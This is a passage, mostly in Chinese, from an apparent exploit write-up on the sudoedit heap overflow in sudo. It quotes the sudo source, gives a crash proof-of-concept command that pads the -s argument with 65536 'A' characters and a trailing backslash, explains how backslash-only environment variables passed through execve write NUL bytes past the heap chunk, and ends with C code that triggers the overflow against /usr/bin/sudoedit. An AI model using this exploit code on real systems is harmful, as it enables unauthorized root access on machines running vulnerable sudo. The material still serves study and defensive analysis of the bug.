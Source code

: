 ```c
    proglen = strlen(progname);
    if (proglen > 4 && strcmp(progname + proglen - 4, "edit") == 0) {
			progname = "sudoedit";
			mode = MODE_EDIT;
			sudo_settings[ARG_SUDOEDIT].value = "true";
    }
```

这样也就得到了最初的POC

```
sudoedit -s '\' `perl -e 'print "A" x 65536'`
```

## 利用分析

直接使用系统自带的sudo进行调试，因为自己编译出的sudo与系统自带的有些不同，所以选择更通用的



首先malloc的size是由-s后参数的长度决定的，因此可以进行任意大小的堆块分配。

只需要在参数最后加一个\\,然后控制环境变量即可溢出了。

而且这个溢出是可以写入\x00的，只需要在环境变量中写入多个\\就可以在溢出中写入多个\x00了

那么现在的问题就在于，如何使环境变量可以只有\\字符，在正常情况下，用env -i指令设置环境变量必须要以X=X的形式进行。

为了可以直接使用单个\\，选择使用execve函数来触发,以execve(proc,argv,envp);这样的方式调用execve来执行sudo就可以随意写入环境变量而不是必须以X=X的形式了。

如下

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <stdint.h>
#include <unistd.h>
#include <ctype.h>

#define MAX_ENVP 512

int main(){
    char paddingA[0x80];
    memset(paddingA,'A',0x6e);
    paddingA[0x6e]='\\';
    char *s_argv[]={
        "sudoedit", "-s", paddingA,"\\",NULL
    };
    char *envp[MAX_ENVP];
    int envp_pos = 0;
    for(int i = 0;i < 0x40;i++){
        envp[envp_pos++] = "\\";
    }
    envp[envp_pos++] = 0;

    execve("/usr/bin/sudoedit",s_argv,envp);
    return 0;
}
```
